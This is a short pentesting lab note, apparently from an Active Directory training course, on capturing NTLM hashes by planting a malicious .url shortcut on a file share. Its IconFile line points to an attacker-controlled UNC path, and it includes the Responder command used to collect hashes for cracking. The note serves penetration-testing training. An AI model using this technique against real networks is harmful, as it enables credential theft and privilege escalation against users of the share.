 
If we have compromised a particular user, and that user has any sort of share access, file share access.

- we can utilize this to capture more hashes via responder
- Go back and try to crack this hashes
- Then get a user with more advanced privileges

This attack requires a compromised user account or an open file share, where you can put a file in the share.

- The content of the file contains what is shown below, whereby we will replace `x.x.x.x` with our attacker IP

```html
[InternetShortcut]
URL=blah
WorkingDirectory=blah
IconFile=\\x.x.x.x\%USERNAME%.icon
IconIndex=1
```

- We can then save the file as `"@test.url"` and upload it to a share (**File explorer >> Network >> HYDRA-DC >> hackme**) on your THEPUNISHER vm (This should be done in the windows system)
- Make sure **HTTP** and **SMB** is turned ON in responder. (default responder settings)

![](https://i.imgur.com/N694Qbl.png)


- Then start up responder with the command `sudo responder -I wlan0 -dwv` 
- Navigate back to that share where the file was uploaded on your THEPUNISHER vm and go back to your terminal where responder is opened, you should see the hashes dumped


![](https://i.imgur.com/LlR1nxJ.jpg)


Navigate to https://academy.tcm-sec.com/courses/1152300/lectures/33637401 to know better



